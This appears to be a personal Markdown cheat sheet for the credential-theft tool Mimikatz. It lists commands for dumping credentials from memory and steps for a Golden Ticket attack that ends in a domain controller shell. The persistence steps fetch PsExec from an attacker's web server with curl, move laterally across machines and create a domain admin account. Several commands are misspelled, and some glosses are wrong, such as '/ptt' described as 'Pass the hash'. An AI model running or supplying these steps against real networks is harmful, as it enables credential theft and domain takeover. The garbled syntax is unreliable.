 # Mimikatz

Tool used to view and streal credentials, generate Kerberos tickets, and leverage attacks.

Dumps credentials stored in memory

pirvilege::debug
   
   - We want to see "20 OK"
   
   - This is to check that we can bypass memory protection

sekurlsa::logonpasswords

  - Can get users NTLM hash, and more

  - Notes:

        wdigest: Old way Windows stored passwords in memory from 7 and prior. Passwords were stored in clear text here. 8+ fixed this to be hashed by turing off the feature. Mimikatz can turn it back on. Once back on a new logon session will be need to occur.

lsadump::sam /patch

lsadump::lsa /patch


# Golden Ticket Attack

If you obtain the hash for the account that creates Kerberos tickets, then we can generate KTGT.
If this is achieved we have complete access to the domain and every machine.

**Exploit**

    lsadump::lda /inject /name:<kerberos ticket granting account>
    
     You want to grab the SID of the domian and the NTLM hash of the account.
     
    kerberose::golden /User:<account name, existing or not> /domain:<domian> /sid:<domain SID> /<kerberos TGT account name>:<NTLM hash> /id:500 /ptt
    
      /id   #account RID
      
      /ptt  #Pass the hash
      
      
     If successful run:
     
     misc:cmd
     
   You now have an admin shell on the domain controller. Here are a few followups for persistence:
   
   - Interact with machines
   
         <command> \\<ip>\c$https://docs.microsoft.com/en-us/sysinternals/downloads/psexechttps://docs.microsoft.com/en-us/sysinternals/downloads/psexec
   
   - Upload psexec.exe to get full shells on other domain systems.
   
        Python web server on attacker under /user/share/Windows-binaries. 
        
        Then on windows:
             
         curl http://<ip>:8000/PsExec.exe -O psexec.exe    
   
         psexec.exe \\<machine name or IP> cmd.exe  #run in golden ticket shell
         
         Note that this can take a while
   
   - Create a domain admin account
   
   - Create silver ticket
      
